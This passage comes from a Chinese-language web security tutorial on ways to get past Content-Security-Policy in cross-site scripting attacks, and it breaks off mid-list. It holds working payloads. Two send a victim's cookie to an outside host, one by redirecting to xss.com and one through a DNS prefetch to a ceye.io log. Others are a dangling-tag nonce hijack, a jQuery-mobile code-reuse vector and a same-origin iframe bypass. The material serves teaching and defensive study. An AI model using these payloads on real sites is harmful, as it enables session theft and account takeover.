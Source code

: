 ```html
<script>
  window.location="http://www.xss.com/x.php?c=[cookie]";
</script>
```

**2.`link`标签预加载**

在Firefox下，可以将cookie作为子域名，用`dns预解析`的方式把cookie带出去，查看`dns`服务器的日志就能得到cookie 

```html
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
```

**3.利用浏览器补全** 

有些网站限制只有某些脚本才能使用，往往会使用script标签的nonce属性，只有nonce一致的脚本才生效 

```http
Content-Security-Policy: default-src 'none';script-src 'nonce-abc'

//CSP设置nonce为abc属性的标签
```

那么当脚本插入点为如下的情况时

```html
<p>插入点</p>
<script id="aa" nonce="abc">document.write('CSP');</script>
```

可以插入

```html
<script src=//14.rs a="
```

这样会拼成一个新的script标签，其中的`src`可以自由设定

```html
<p><script src=//14.rs a="</p>
<script id="aa" nonce="abc">document.write('CSP');</script>
```

**4.代码重用**

假设页面中使用了`Jquery-mobile`库，并且`CSP`策略中包含"`script-src` '`unsafe-eval`' "或者"`script-src` 'strict-dynamic'"

那么下面的向量就可以绕过`CSP`：

```html
<div data-role=popup id='<script>alert(1)</script>'></div>
```

**5.`ifrmae`**

(1) 如果页面A中有`CSP`限制，但是页面B中没有，同时A和B同源，那么就可以在A页面中包含B页面来绕过`CSP`： 

```html
<iframe src="B"></iframe>
```
